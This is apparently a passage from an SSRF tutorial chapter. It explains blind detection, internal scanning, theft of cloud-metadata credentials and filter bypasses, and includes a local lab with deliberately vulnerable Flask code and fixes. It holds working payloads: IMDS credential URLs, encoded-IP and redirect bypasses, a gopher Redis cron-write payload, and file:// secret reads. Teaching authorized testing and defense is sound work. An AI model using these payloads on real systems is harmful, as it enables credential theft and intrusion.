







This is Chapter 1 of the Server-Side notebook — Notebook 26. The Access & Logic notebook attacked
the application's rules; this notebook attacks the *server operations* an attacker can hijack, and it
opens with the one that most reliably turns a single web bug into full infrastructure compromise:
**Server-Side Request Forgery (SSRF)**. SSRF is what happens when an application can be induced to
make an HTTP (or other-protocol) request to a URL the attacker controls or influences — and the
request is made *by the server*, from *inside* the trusted network, with the server's own network
position and often its own credentials.

That "from inside" property is the entire reason SSRF is dangerous. A server sitting behind a
firewall can reach things the outside attacker cannot: internal microservices with no
authentication, admin panels bound to localhost, databases and caches on private IPs, and — the
crown jewel in cloud environments — the **instance metadata service**, a magic link-local address
that hands out the machine's cloud credentials. SSRF lets the attacker send requests *through* the
server to all of these, converting "I can make your app fetch a URL" into "I can read your internal
services and steal your cloud keys." It rose into the OWASP Top 10 (2021) as its own category (A10)
precisely because cloud adoption made the metadata-credential escalation so devastating and so
common.

This chapter builds SSRF from first principles, distinguishes in-band from blind SSRF and teaches
out-of-band detection, then spends its length on the escalation targets (internal services and cloud
metadata) and the filter bypasses that defeat naive defenses, with a reproducible lab. Everything is
**authorized-only**: SSRF reaches real internal infrastructure and can retrieve live credentials, so
you test only within an explicitly permitted scope, prove reach with a benign non-destructive request
(hit your own Collaborator, read a harmless internal endpoint), and — critically — if you retrieve
cloud credentials you report the access path and do **not** use the credentials to enumerate or
exfiltrate the account. Retrieving keys demonstrates impact; using them is a separate, unauthorized
act.

## Part 1: What SSRF Is and Why "The Server Fetches It" Changes Everything

**Server-Side Request Forgery** is a vulnerability in which an attacker causes a server-side
application to make a network request to a destination of the attacker's choosing. The application
*intends* to fetch some URL (a webhook, an image, a document, a remote API) using a user-supplied
value, and the attacker supplies a value pointing somewhere it shouldn't — an internal address, a
different port, another protocol, or a cloud metadata endpoint.

The decisive difference from client-side request forgery (CSRF, Notebook 24 Chapter 4) is *who makes
the request*. In CSRF the *victim's browser* makes the request, limited to the victim's origins and
cookies. In SSRF the *server* makes the request, from the server's network location, with the
server's trust and credentials. That relocation of the request's origin — from the attacker's/victim's
edge position to the server's privileged interior — is what unlocks the internal network.



**Where SSRF-prone functionality lives** — any feature that fetches a URL server-side:

- **Webhooks / callbacks** — "we'll POST to your URL", "send events to this endpoint".
- **URL preview / unfurling** — link previews, "import from URL", Open Graph fetchers.
- **Document / image processing** — "fetch this image to resize", PDF generators that render remote
  resources, headless-browser screenshotters.
- **Import / integration** — "import your data from this URL", RSS/XML fetchers, remote file
  includes.
- **Proxies and health checks** — server-side HTTP clients, SSRF-able API gateways.
- **Hidden in parsers** — XXE (XML external entities) can drive SSRF; PDF/SVG/media parsers that
  follow URLs.

Any parameter that ends up as the target of a server-side `fetch`/`curl`/`requests.get`/
`file_get_contents` is a candidate. The core test is trivial: point it at a URL you control and see if
your server gets a hit.

## Part 2: In-Band, Blind, and Semi-Blind SSRF

SSRF varies by how much of the server's response you can *see*, which dictates detection and
exploitation:

| Type | You control | You see | Detection |
|---|---|---|---|
| **In-band (basic)** | The URL | The fetched **response content** | Directly — read the internal response |
| **Semi-blind** | The URL | Partial signal (status, timing, error text, length) | Infer from side channels |
| **Blind** | The URL | **Nothing** in the app response | Out-of-band (OAST) — your own listener gets the hit |

**In-band SSRF** returns the fetched content to you: request `url=http://169.254.169.254/...` and the
metadata comes back in the HTTP response. This is the most powerful and easiest to exploit — you read
internal responses directly.

**Blind SSRF** gives no visible response — the server fetches the URL but doesn't return the body (a
webhook that fires-and-forgets, a background image processor). You confirm it **out-of-band**: point
the URL at a server *you* control and watch for the incoming request. This is where **OAST
(Out-of-band Application Security Testing)** and **Burp Collaborator** come in (Part 3). Blind SSRF is
still dangerous — you can hit internal endpoints that *cause effects* even if you can't read them, and
timing/error differences can leak information (a blind-but-oracle situation).



## Part 3: Out-of-Band Detection — Burp Collaborator and OAST

To detect blind SSRF (and blind vulns generally) you need a server that records inbound requests and
tells you when the *target* server connected to it — proving the target made a request you induced.
**Burp Collaborator** is the standard tool: it provides a unique subdomain (e.g.
`abc123.oastify.com`), and Burp polls it to show any DNS lookups or HTTP requests that arrive at that
subdomain, with the source IP and timing.

The workflow, taught from zero:

```text
1. In Burp, Collaborator → "Copy to clipboard" → you get a unique payload domain, e.g.
   c9x8...oastify.com
2. Put it in the suspected SSRF parameter:  url=http://c9x8...oastify.com/ssrf-test
3. Trigger the request; poll Collaborator ("Poll now").
4. Interpret the interactions:
   - HTTP interaction from the TARGET's IP  → confirmed SSRF (server fetched your URL)
   - DNS lookup only                        → server resolved the name but egress blocked the HTTP
     connection (still proves the parser reached out; a real signal)
   - Nothing                                → not SSRF at this parameter, or fully filtered
```

The DNS-vs-HTTP distinction is important: a DNS lookup with no HTTP connection means the server's URL
parser processed your hostname (resolved it) but something (egress firewall) blocked the actual
connection — useful evidence and sometimes still exploitable via DNS-based techniques. A full HTTP hit
from the target's egress IP is unambiguous SSRF.

Open-source/self-hosted alternatives when Collaborator isn't available: `interactsh` (from
ProjectDiscovery), a plain HTTP listener on a VPS (`nc -lvnp 80` / a Python server) with a domain you
control, or `webhook.site` for quick tests. **Bug-bounty relevance:** OAST is essential — a huge share
of accepted SSRF (and blind XXE/RCE) reports are confirmed only via a Collaborator/interactsh hit, and
including the interaction (target IP, timestamp) is what makes a blind finding credible.

## Part 4: The Escalation Targets — Internal Services and localhost

A confirmed SSRF is only as impactful as what the server can reach. The first escalation is *internal
network access*: the server can hit private-range addresses and localhost that the outside attacker
cannot.

**Localhost / loopback (`127.0.0.1`, `::1`, `localhost`).** Many services bind admin or debug
interfaces to loopback assuming "only local processes can reach it" — but SSRF *is* a local process.
Targets: an admin panel on `127.0.0.1:8080`, a metrics/debug endpoint (`/actuator`, `/debug`,
`/server-status`), an internal API on a high port, a database or cache (Redis on `6379`, Elasticsearch
on `9200`, Memcached on `11211`) that trusts localhost.

**Private ranges (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`) and link-local
(`169.254.0.0/16`).** The internal microservice mesh, service-discovery endpoints, internal load
balancers, CI systems, and — link-local — the cloud metadata service (Part 5). SSRF lets you port-scan
and reach these.

**Port scanning via SSRF.** Even blind, you can map internal services by observing timing/error
differences per port: a closed port fails fast (connection refused), an open port that speaks HTTP
returns content or a different error/timing, a filtered port hangs until timeout. Iterating
`http://10.0.0.5:PORT/` across ports turns SSRF into an internal scanner.

```bash
# Conceptual: iterate internal host:port via the SSRF parameter, watch status/timing to infer open ports
for p in 22 80 443 3306 6379 8080 9200; do
  echo -n "port $p: "
  curl -s -o /dev/null -w "%{http_code} %{time_total}s\n" \
    "https://vuln.app/fetch?url=http://10.0.0.5:$p/"
done
# fast refuse vs slow timeout vs HTTP response distinguishes closed/filtered/open
```

**Reaching non-HTTP services** often needs protocol smuggling (Part 7) — e.g. `gopher://` to speak to
Redis. But many internal HTTP services (admin panels, `/actuator/env`, service metadata) are directly
reachable and immediately valuable. **Red team relevance:** SSRF is a premier pivot — it's often the
initial foothold that exposes the internal attack surface an external attacker otherwise can't see.

## Part 5: Cloud Metadata — SSRF's Nuclear Escalation

The single most impactful SSRF target is the **cloud instance metadata service (IMDS)**: a special,
non-routable, link-local endpoint at **`169.254.169.254`** that every major cloud exposes to
instances so they can discover their own configuration — including, critically, **temporary IAM
credentials** for the role attached to the instance. Any process on the instance can read it with a
plain HTTP GET and no authentication. SSRF makes the *attacker* that process.

**AWS IMDSv1 — the classic credential theft.** On an instance with an IAM role, the metadata service
serves the role's temporary credentials at a well-known path:

```text
# Enumerate the role name, then read its credentials (IMDSv1: a simple unauthenticated GET):
http://169.254.169.254/latest/meta-data/iam/security-credentials/
   -> S3-access-role
http://169.254.169.254/latest/meta-data/iam/security-credentials/S3-access-role
   -> {
        "AccessKeyId": "ASIA...",
        "SecretAccessKey": "...",
        "Token": "...",                     <- temporary session token
        "Expiration": "..."
      }
```

Feeding `url=http://169.254.169.254/latest/meta-data/iam/security-credentials/S3-access-role` to an
in-band SSRF returns those credentials in the app response. With them, an attacker assumes the
instance's IAM role — full access to whatever the role can do (S3 buckets, more EC2, databases),
frequently a path to full account compromise. This exact chain (SSRF → IMDSv1 → IAM creds) was the
mechanism of the 2019 Capital One breach, which drove the industry shift to IMDSv2.

**Other cloud metadata endpoints** (test all — targets are multi-cloud):

| Cloud | Metadata base | Notable path | Note |
|---|---|---|---|
| AWS | `http://169.254.169.254/latest/meta-data/` | `iam/security-credentials/<role>` | IMDSv1 = GET; IMDSv2 needs a token header |
| GCP | `http://metadata.google.internal/computeMetadata/v1/` | `instance/service-accounts/default/token` | **Requires header** `Metadata-Flavor: Google` |
| Azure | `http://169.254.169.254/metadata/instance` | `identity/oauth2/token` | **Requires header** `Metadata: true` + `?api-version=` |
| DigitalOcean/Oracle/Alibaba | `169.254.169.254/...` | varies | each has its own layout |

**The header requirement matters.** GCP and Azure require a special request *header* on the metadata
request, which is a partial SSRF mitigation: a basic SSRF that only controls the URL (not headers)
can't set `Metadata-Flavor: Google`. But if the SSRF lets you influence headers, or the app forwards
your headers, or you can smuggle them, the requirement falls. AWS **IMDSv2** applies the same idea more
strongly (Part 8 defense): it requires a PUT to obtain a session token, then that token as a header on
each GET — defeating simple GET-only SSRF.



**Authorized-use boundary (critical here):** retrieving the credentials *demonstrates* critical
impact and is the finding. *Using* them to list S3, spin up resources, or read data is a separate
unauthorized action that can cause real damage and exceed scope. In a report, show the credentials
were retrievable (redact the secret), state the role and its likely permissions, and stop — do not
exercise the keys unless the engagement explicitly authorizes it.

## Part 6: Filter Bypasses — Defeating Naive SSRF Defenses

Applications that need to fetch user URLs often add filters ("block `127.0.0.1` and `169.254.169.254`
and internal ranges"). Naive filters are defeated by the many ways to express the same destination.
This is the technical heart of SSRF exploitation.

**IP address format tricks.** `127.0.0.1` and `169.254.169.254` have many equivalent
representations that string-matching blocklists miss:

| Representation | `127.0.0.1` example | Why it works |
|---|---|---|
| Decimal (integer) | `http://2130706433/` | `127.0.0.1` as a 32-bit int |
| Octal | `http://0177.0.0.1/` | octal octets |
| Hex | `http://0x7f000001/` | hex integer |
| Mixed / short | `http://127.1/`, `http://0/` | shorthand forms browsers/libs accept |
| IPv6 | `http://[::1]/`, `http://[::ffff:127.0.0.1]/` | loopback / IPv4-mapped IPv6 |
| Enclosed alt | `http://①②⑦.0.0.1` (unicode) | some parsers normalise oddly |

For `169.254.169.254`: decimal `2852039166`, hex `0xa9fea9fe`, octal, and IPv6-mapped variants all
reach the metadata service while dodging a literal-string block.

**DNS-based bypasses.** Point a hostname *you* control at an internal IP: create an `A` record for
`evil.example` → `169.254.169.254` (or `127.0.0.1`). A filter that only blocks IP literals passes the
hostname, then the server resolves it to the blocked address. Public helpers like `nip.io`/`sslip.io`
resolve `169.254.169.254.nip.io` → `169.254.169.254` automatically.

**DNS rebinding — defeating resolve-then-check.** If the app resolves the hostname, checks the IP is
safe, and *then fetches* (a TOCTOU, tying to Chapter 7's races), an attacker uses a DNS name whose
answer *changes between the check and the fetch*: first resolution returns a public IP (passes the
check), the second (at fetch time) returns `169.254.169.254`. Tools like `rbndr`/`singularity`
automate rebinding. The fix is to resolve once and connect to *that* resolved IP, or re-validate the
connected IP.

**Redirect-based bypass.** The app validates the initial URL (a benign public one you host) but
*follows redirects*; your server responds `302 Location: http://169.254.169.254/...`, and the
follow-up request goes to the blocked target without re-validation. Test whether the fetcher follows
redirects and whether it re-checks the redirect target.

**URL-parser confusion.** Different components (the validator vs the HTTP client) parse the URL
differently — the classic `http://expected.com@169.254.169.254/`, `http://169.254.169.254#@expected.com`,
`http://expected.com\@169.254.169.254`, or embedded credentials/whitespace/case that make the validator
see `expected.com` while the fetcher connects to the metadata IP. This "parser differential" is a rich
bypass family (Orange Tsai's research on URL parsing).



**The takeaway for testers:** a filter that "blocks internal IPs" almost always has a bypass; work
through the encodings, DNS tricks, redirects, and parser confusions systematically. **The takeaway for
defenders (Part 8):** blocklists are the wrong model — resolve the hostname, validate the *resolved
IP* against an allow-list of permitted destinations, and pin the connection to that IP.

## Part 7: Protocol Smuggling — gopher://, file://, and Beyond

The URL scheme controls *which protocol* the server speaks, and schemes beyond `http(s)` unlock more
targets. Whether they work depends on the server's HTTP client/library (`curl` supports many;
language `fetch`/`requests` fewer).

**`file://` — local file read.** If the fetcher honours `file://`, SSRF becomes local file
disclosure: `file:///etc/passwd`, `file:///proc/self/environ` (often leaks env vars/secrets),
`file:///app/config.yaml`. This overlaps the LFI class (Chapter 3 of this notebook).

**`gopher://` — arbitrary TCP / talk to internal services.** `gopher://` lets you send a raw,
attacker-crafted payload to an arbitrary host:port, so you can speak *other* protocols to internal
services that trust the network. The canonical abuse is driving **Redis** (unauthenticated on
`6379`) to write a cron job or a webshell, or sending crafted HTTP with custom headers/methods.
Because gopher carries the exact bytes, it turns SSRF into near-arbitrary internal request injection:

```text
# gopher payload to an internal Redis (%0d%0a = CRLF between Redis protocol lines):
gopher://10.0.0.9:6379/_SET%20mykey%20"payload"%0d%0aCONFIG%20SET%20dir%20/var/spool/cron%0d%0a...
# each line is a Redis command; this class of payload has achieved RCE via cron/webshell writes
```

Other schemes to test: `dict://` (talk to services, banner-grab), `ftp://`, `ldap://`, `sftp://`,
and `http://` with smuggled CRLF for header injection. **The defensive control** is an allow-list of
*schemes* (`https` only, or `http`/`https` only) — never let user URLs choose `file`/`gopher`/`dict`.

| Scheme | Capability | Typical target |
|---|---|---|
| `file://` | Read local files | `/etc/passwd`, `/proc/self/environ`, config/secrets |
| `gopher://` | Raw TCP payload | Redis/Memcached RCE, crafted HTTP, internal protocols |
| `dict://` | Simple text protocol | service banner-grab / interaction |
| `http(s)://` + CRLF | Header/request injection | smuggled requests to internal HTTP |

## Part 8: Hands-On Lab — Basic SSRF, Blind Detection, and Metadata Theft

A reproducible lab: a deliberately vulnerable "URL preview" endpoint, a mock metadata service, and an
OOB listener. Local and yours.

### 8.1 The vulnerable app + a mock metadata service

```python
# ssrf_app.py — INTENTIONALLY VULNERABLE. Lab only.
from flask import Flask, request, Response
import requests
app = Flask(__name__)
BLOCK = ["127.0.0.1", "169.254.169.254"]        # BUG: naive string blocklist (bypassable)

@app.route("/fetch")
def fetch():
    url = request.args.get("url", "")
    if any(b in url for b in BLOCK):             # trivially defeated by alt encodings/DNS
        return "blocked", 403
    try:
        r = requests.get(url, timeout=3, allow_redirects=True)  # BUG: follows redirects, any scheme host
        return Response(r.text, status=r.status_code)           # in-band: returns fetched body
    except Exception as e:
        return f"error: {e}", 502

if __name__ == "__main__": app.run(port=5000)
```

```python
# fake_imds.py — pretend cloud metadata service on 127.0.0.1:8169 for the lab.
from flask import Flask, jsonify
app = Flask(__name__)
@app.route("/latest/meta-data/iam/security-credentials/")
def roles(): return "S3-access-role"
@app.route("/latest/meta-data/iam/security-credentials/S3-access-role")
def creds(): return jsonify({"AccessKeyId":"ASIAFAKE","SecretAccessKey":"FAKE_SECRET","Token":"FAKE"})
if __name__ == "__main__": app.run(port=8169)
```

### 8.2 Confirm SSRF (in-band) and read an internal service

```bash
# Point the fetcher at the "internal" metadata service it shouldn't reach:
curl -s "http://127.0.0.1:5000/fetch?url=http://127.0.0.1:8169/latest/meta-data/iam/security-credentials/"
# -> S3-access-role      (SSRF: the server reached an internal-only service)
curl -s "http://127.0.0.1:5000/fetch?url=http://127.0.0.1:8169/latest/meta-data/iam/security-credentials/S3-access-role"
# -> {"AccessKeyId":"ASIAFAKE","SecretAccessKey":"FAKE_SECRET","Token":"FAKE"}   (metadata cred theft)
```

### 8.3 Defeat the blocklist (alt IP encodings)

The blocklist matches the literal string `127.0.0.1`, so use an equivalent form:

```bash
curl -s "http://127.0.0.1:5000/fetch?url=http://2130706433:8169/latest/meta-data/iam/security-credentials/"
# 2130706433 = 127.0.0.1 in decimal → passes the string blocklist, still reaches loopback
curl -s "http://127.0.0.1:5000/fetch?url=http://0x7f000001:8169/latest/meta-data/iam/security-credentials/"
# hex form — also bypasses
```

### 8.4 Redirect bypass

Host a redirector that the fetcher follows to the blocked target:

```python
# redirector.py — serve on :9000
from flask import Flask, redirect
app = Flask(__name__)
@app.route("/go")
def go(): return redirect("http://127.0.0.1:8169/latest/meta-data/iam/security-credentials/S3-access-role")
app.run(port=9000)
```

```bash
curl -s "http://127.0.0.1:5000/fetch?url=http://127.0.0.1:9000/go"   # initial URL passes; 302 → internal
# Wait — 127.0.0.1:9000 is itself blocked; host the redirector on a non-blocked name (e.g. a nip.io or a
# public VPS) so the INITIAL url passes the filter and the REDIRECT lands on the blocked target.
```

### 8.5 Blind SSRF detection (OOB)

If `/fetch` returned nothing (blind), confirm via an out-of-band hit. Start a listener and point the
URL at it:

```bash
# Attacker listener (stand-in for Burp Collaborator / interactsh):
python3 -m http.server 8000        # or: nc -lvnp 8000
# Trigger:
curl -s "http://127.0.0.1:5000/fetch?url=http://127.0.0.1:8000/ssrf-oob" >/dev/null
# The listener logs:  "GET /ssrf-oob"  from the server → SSRF confirmed even with no app response
```

### 8.6 The fixes, demonstrated

```python
import ipaddress, socket
from urllib.parse import urlparse
ALLOWED_SCHEMES = {"http", "https"}

def safe_fetch(url):
    u = urlparse(url)
    if u.scheme not in ALLOWED_SCHEMES: raise ValueError("scheme not allowed")   # no file/gopher
    ip = socket.gethostbyname(u.hostname)                 # resolve ONCE
    addr = ipaddress.ip_address(ip)
    if addr.is_private or addr.is_loopback or addr.is_link_local or addr.is_reserved:
        raise ValueError("internal address blocked")       # validate the RESOLVED ip, not the string
    # connect to THAT ip (pin it) with redirects disabled and re-validate any redirect target
    return requests.get(url, allow_redirects=False, timeout=3,
                        headers={"Host": u.hostname})       # pin; disallow redirects
```

Re-running the exploits now fails: alt-encoded and DNS forms all *resolve* to loopback/link-local and
are rejected on the resolved IP; `file://`/`gopher://` are rejected by the scheme allow-list; and
redirects are not followed (or are re-validated), closing the redirect bypass.

### 8.6b Protocol-smuggling demo — file:// and the gopher concept

If the fetcher is `curl`-backed (supports many schemes), `file://` turns the SSRF into local file
read:

```bash
curl -s "http://127.0.0.1:5000/fetch?url=file:///etc/hostname"     # if scheme not allow-listed → file read
# In the vulnerable app above (requests-based) file:// won't work, but a curl/libcurl backend would.
```

For `gopher://` against a lab Redis (run a local Redis on 6379, no auth), the payload sends raw Redis
commands. Build it with **Gopherus** rather than by hand:

```bash
python3 gopherus.py --exploit redis
# Gopherus prints a gopher:// URL whose body is CRLF-separated Redis commands to write, e.g., a cron
# job into /var/spool/cron. You then submit that gopher:// URL through the SSRF parameter.
```

The point of the demo is conceptual: because gopher carries exact bytes to an arbitrary host:port, an
SSRF that permits the `gopher` scheme can drive any line-based internal protocol — which is why the
scheme allow-list in the fixes (8.6) is essential, not optional.

### 8.7 PortSwigger SSRF drills

```text
- "Basic SSRF against the local server"                          → Part 4
- "Basic SSRF against another back-end system"                   → Part 4 (internal host)
- "SSRF with blacklist-based input filter"                       → Part 6 (encodings)
- "SSRF with filter bypass via open redirection"                 → Part 6 (redirect)
- "Blind SSRF with out-of-band detection"                        → Part 3 (Collaborator)
- "Blind SSRF with Shellshock exploitation"                      → blind → RCE chain
- "SSRF with whitelist-based input filter"                       → parser-confusion bypass
```

## Part 9: Real-World Impact, CVEs & Escalation

SSRF is high-severity because of where it leads, not what it is on the surface:

- **Capital One (2019)** — the defining SSRF breach: an SSRF on a web application firewall/app was
  used to hit AWS **IMDSv1** at `169.254.169.254`, steal the instance role's IAM credentials, and
  access ~100 million customer records in S3. It is the reason **IMDSv2** exists and the canonical
  case for SSRF → cloud-credential → mass data compromise.
- **Cloud metadata theft generally** remains the top SSRF escalation across AWS/GCP/Azure wherever
  IMDSv1 (or header-forwarding SSRF against GCP/Azure) is reachable.
- **Internal service compromise** — SSRF into unauthenticated internal admin panels, `/actuator/env`
  (Spring), Kubernetes API, Docker/Consul/etcd endpoints, and Redis (via gopher → RCE) — turns a
  fetch bug into internal foothold or RCE.
- **SSRF via unexpected parsers** — XXE, PDF/SVG renderers, and image/document processors that follow
  URLs have all yielded SSRF.

SSRF is OWASP **A10:2021 Server-Side Request Forgery** — promoted to its own category specifically
because of the cloud-metadata escalation. The escalation ladder is the chapter in one picture:



A useful way to reason about SSRF severity is the **reachability map**: enumerate, for the vulnerable
server, everything it can talk to that the external attacker cannot — cloud metadata, loopback admin
interfaces, the private-subnet service mesh, orchestrator control planes, and internal proxies — and
